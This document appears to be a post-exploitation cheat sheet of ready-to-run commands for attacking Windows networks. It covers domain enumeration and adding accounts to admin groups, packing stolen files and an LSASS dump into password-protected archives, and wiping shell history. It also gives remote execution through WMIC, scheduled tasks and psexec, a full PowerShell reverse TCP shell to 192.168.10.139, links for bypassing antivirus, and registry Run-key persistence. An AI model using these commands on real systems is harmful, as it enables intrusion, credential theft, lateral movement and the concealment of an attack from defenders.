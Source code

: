 # scan



# Domain control
```command
net user
net user /domain
net group /domain
net view /domain
net group "domain admins" /domain
net localgroup administrators /domain
net user username password /add /domain
net time /domain
net view /domain
net localgroup administrators workgroup\test123 /add
net group "domain controllers" /domain

dsquery computer
dsquery contact
dsquery group
dsquery user
dsquery subnet
dsquery server
```

# information package
```command
7z.exe -r -v6m -padmin a c:\test.7z C:\AppServ\www\import*.*
7z.exe x -padmin test.7z.001 -oc:\xl

Rar.exe a -r -v6m -padmin -m3 -x*.txt -ta c:\test.rar C:\AppServ\www\import*.*
Rar.exe x -padmin c:\test.part01.rar c:\xl

makecab /d compressiontype=lzx C:\Users\lsass.txt C:\Users\lsass.cab >> C:\Users\info.txt
expand.exe lsass.cab -f:* .
```

# log clear
wc -l ~/.bash_history
sed -i '73,$d' ~/.bash_history
tail -10f ~/.bash_history

# remote execute
wmic /node:192.168.1.1 /user:administrator /password:"passwd" /namespace:\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
wmic /node:192.168.1.1 /user:administrator /password:"passwd" os get Caption,OSArchitecture,Version
wmic /node:192.168.1.1 /user:administrator /password:"passwd" product list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" startup list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process where name="test.exe" call terminate

schtasks /create /s 172.10.1.1 /u administrator /p "passwd" /ru SYSTEM /tn test /sc DAILY /tr "C:\Users\hacker.exe -a -b c" /F & schtasks /run /s 172.10.1.1 /u administrator /p "passwd" /tn test /i & schtasks /delete /s 172.10.1.1 /u administrator /p "passwd" /tn test /f
python psexec.py test:passwdtest@10.10.1.1 cmd
python wmiexec.py test:passwdtest@10.10.1.1
Psexec.exe \\10.10.1.1 -u test -p passwdtest cmd

# powershell
change file time
powershell.exe -command "Get-ChildItem -Path C:\ -Recurse –Include .txt,.doc,.xls,.pdf,.ppt,.docx,.xlsx,.pptf,.csv,.lnk | Where-Object { $.LastWriteTime -ge '02/01/2019 00:00:00' -AND $.LastWriteTime -le '10/27/2022 00:00:00'} | Copy-Item -Force -Destination C:\Users"

write file
powershell.exe -command "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("......")) | Set-Content testfoo.txt"

## reverse tcp shell
nc -lvp 6666

powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.10.139',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


# BypassAV
https://github.com/TideSec/BypassAntiVirus
https://github.com/clinicallyinane/shellcode_launcher/
https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html


# Persistence
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /f /v test /t REG_SZ /d "rundll32.exe "C:\Users\test\test.dll" Test"
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "test" /f
